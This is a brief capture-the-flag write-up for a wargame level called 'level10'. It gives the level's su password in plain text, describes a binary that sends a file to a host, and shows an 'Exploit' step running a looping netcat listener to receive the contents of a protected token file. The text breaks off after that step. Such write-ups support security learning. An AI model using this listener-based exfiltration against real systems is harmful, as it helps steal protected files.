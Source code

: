 ## level10

```bash
$ su level10 s5cAJpM8ev6XHw998pRWG728z
```

### Vulnerability Assessment

```bash
$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

The directory contains two files: an executable named `level10` and a file named `token`. The contents of the `token` is not readable because of the permissions.



### Exploit

```bash
$ while true; do nc -l 192.168.56.103 6969; done
```
